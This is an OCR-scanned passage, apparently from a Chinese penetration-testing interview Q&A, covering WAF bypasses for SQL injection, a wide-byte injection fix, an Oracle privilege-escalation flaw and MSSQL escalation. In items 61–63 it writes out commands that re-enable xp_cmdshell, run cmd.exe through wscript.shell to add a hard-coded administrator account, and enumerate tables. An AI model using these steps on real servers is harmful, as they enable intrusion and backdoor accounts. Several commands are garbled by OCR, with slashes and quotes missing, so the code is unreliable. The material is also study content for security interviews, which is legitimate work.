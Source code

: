   (6)multipart 请求绕过，在 POST 请求中添加一个上传文件，绕过了绝大多数WAF。  
  (7)参数绕过，复制参数，id=1&id=1 用一些特殊字符代替空格，比如在 mysql 中%0a 是换行，可以代替空格，这个方法也可以部分绕过最新版本的安全狗，在 sqlserver 中可以用/**/代替空格  
  (8)内联注释，文件上传，复制文件包一份再加一份在  form-data;后面增加一定的字符  

59.既然宽字节注入可以绕过单引号过滤，那么怎么来修复呢？  
宽字符：解决方法：就是在初始化连接和字符集之后，使用 SET character_set_client=binary 来设定客户端的字符集是二进制的。修改Windows 下的 MySQL 配置文件一般是  my.ini ，Linux 下的 MySQL 配置文件一般是 my.cnf ，比如：mysql_query("SETcharacter_set_client=binary");。 
character_set_client 指定的是 SQL 语句的编码，如果设置为  binary ，MySQL就以二进制来执行，这样宽字节编码问题就没有用武之地了。  
详细参考 ：  
http://wenku.baidu.com/link?url=F4Cq18NYdsnATq3eqtr3zCWLKExoEYV62yJp5zsfM5c85iv4rldTvl1A_SGilEAiWB_O_hg0C9A8VLoIT4K_HxyyF0Z7xo5Pihh1VxxYa4QGiXQ_wGDjiOFHubYvshgl  

60.列举出 oracle 注入获取管理员权限提权典型漏洞？  
 【漏洞名称】  sys.dbms_export_extension.get_domain_index_metadata  提升权限漏洞  
 【影响平台】Oracle 8i / 9i / 10g / XE  
 【风险等级】高【攻击需求】较低权限账号  
 【造成危害】取得管理员权限  

61.mssql 提权的提权思路有哪些步骤？  
（1）首先看看xp_cmdshel 是否 l 存在,不存在的话先恢复，恢复语句如下：  
Exec sp_configure show advanced options,1;RECONFIGURE;EXEC  sp_configure xp_cmdshell,1;RECONFIGURE;  ;EXEC sp_configure show advanced options, 1;RECONFIGURE;EXEC  sp_configure xp_cmdshell, 1;RECONFIGURE;--  
（2）如果 xp_cmdshell 还是不行就再执行命令  
;dbcc addextendedproc("xp_cmdshell","xplog70.dll");--  
或;sp_addextendedproc xp_cmdshell,@dllname=xplog70.dll 来恢复cmdshell  
（3）无法在库  xpweb70.dll  中找到函数  xp_cmdshell。原因: 127(找不到指定的程序。)  
恢复方法：查询分离器连接后,  
第一步执行:exec sp_dropextendedproc xp_cmdshell  
第二步执行:exec sp_addextendedproc xp_cmdshell,xpweb70.dll  
然后按 F5 键命令执行完毕  
（4）终极方法如果以上方法均不可恢复,请尝试用下面的办法直接添加帐户:查询分离器连接后,  
2000servser 系统:  
declare @shell int exec sp_oacreate wscript.shell,@shell output exec  sp_oamethod @shell,run,null,c:winntsystem32cmd.exe /c net user dell  huxifeng007 /add  
declare @shell int exec sp_oacreate wscript.shell,@shell output exec sp_oamethod @shell,run,null,c:winntsystem32cmd.exe /c net localgroup  administrators dell /add  
sql2008  提权  低权限运行  

62、mssql 提权提示错误代码 5 ，cmd 权限不足的原因？  
错误代码”5″ ，马上google 之。由于 xp_cmdshell 是严格 
用%systemroot%\system32\cmd.exe 去执行所提交的命令的，提示”5″ ，意思是 cmd 的权限不足，就是说 system32 下的 cmd.exe 被降权了。当然也有绕过的方法，比如启用沙盒模式执行 shell 命令：  

 63.怎么用 sqlmap 对 sa 权限的 mssql 2008 进行提权？  
 （1 ）第一种函数  
select name from sysobjects where xtype=u  通过这个来爆第一个表  
select name from sysobjects where xtype=u and name not in(爆出来的表1 ，爆出来的表2...)  
一直爆下去，直到找到我们所需要的表位置  
 （2 ）第二种函数  
select table_name from information_schema.tables  
select table_name from information_schema.tables where table_name  
not in (爆出来的表 1 ，爆出来的表2...)  
参考文章：http://www.freebuf.com/articles/web/10280.html  
